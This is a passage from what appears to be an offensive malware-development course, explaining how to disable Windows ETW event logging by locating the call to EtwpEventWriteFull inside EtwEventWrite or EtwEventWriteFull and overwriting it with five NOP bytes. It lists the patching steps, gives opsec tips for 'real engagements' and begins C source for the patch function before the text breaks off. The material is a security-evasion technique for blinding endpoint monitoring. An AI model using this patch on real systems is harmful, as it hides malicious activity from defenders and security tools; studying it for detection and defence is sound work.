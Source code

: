 A prerequisite to performing the patch is knowing the number of bytes that need to be overwritten. The previous images indicate that 5 bytes must be overwritten, which have the following format:

```
call XXXXXXXX
```

In this scenario, the operand of the `call` instruction represents an offset to the address of the `EtwpEventWriteFull` function. Considering that the opcode for the `call` instruction is one byte, and the accompanying address is four bytes, patching the `call EtwpEventWriteFull` instruction requires writing five `nop` instructions.

#### PatchEtwpEventWriteFullCall Function

The custom-built `PatchEtwpEventWriteFullCall` function applies the patch by completing the following steps:

1. Retrieve the address of the target function (either `EtwEventWrite` or `EtwEventWriteFull`) using the `GetProcAddress` WinAPI. Using `GetProcAddress` is not recommended in real engagements, but implementing an alternative will be left as an objective for this module.
    
2. Use the retrieved function's address to find the last `ret` instruction.
    
3. Begin searching in an upward direction, starting from the address of the `ret` instruction, for the `E8` opcode, which is the `call` instruction.
    
4. Retrieve the address of the first `call` instruction found.
    
5. Change the memory permissions of the specified address to allow writing. In this module, the memory permissions are set to `RWX`. This is an opsec fail and in real engagements `RWX` should be avoided and instead make use of `RW` and `RX`.
    
6. Write five `nop` instruction
    
7. Re-set the memory permissions to their original state.
    

The `PatchEtwpEventWriteFullCall` function's only required parameter is a `PATCH` enumeration that was introduced in the previous module. The `PATCH` enumeration determines what function `PatchEtwpEventWriteFullCall` will target, being either `EtwEventWrite` or `EtwEventWriteFull`. The `PATCH` enumeration is shown again below for convenience.

```c
typedef enum PATCH
{
	PATCH_ETW_EVENTWRITE,
	PATCH_ETW_EVENTWRITE_FULL
};
```

Whereas the `PatchEtwpEventWriteFullCall` function is shown below.

```c
#define x64_CALL_INSTRUCTION_OPCODE			0xE8		// 'call'	- instruction opcode
#define x64_RET_INSTRUCTION_OPCODE			0xC3		// 'ret'	- instruction opcode
#define x64_INT3_INSTRUCTION_OPCODE			0xCC		// 'int3'	- instruction opcode
#define NOP_INSTRUCTION_OPCODE				0x90		// 'nop'	- instruction opcode

#define PATCH_SIZE							0x05


BOOL PatchEtwpEventWriteFullCall(enum PATCH ePatch) {

	int			i               = 0;
	DWORD		dwOldProtection = 0x00;
	PBYTE		pEtwFuncAddress = NULL;

	// Get the address of "EtwEventWrite" OR "EtwEventWriteFull" based on 'ePatch'
	pEtwFuncAddress = GetProcAddress(GetModuleHandleA("NTDLL"), ePatch == PATCH_ETW_EVENTWRITE ? "EtwEventWrite" : "EtwEventWriteFull");
	if (!pEtwFuncAddress) {
```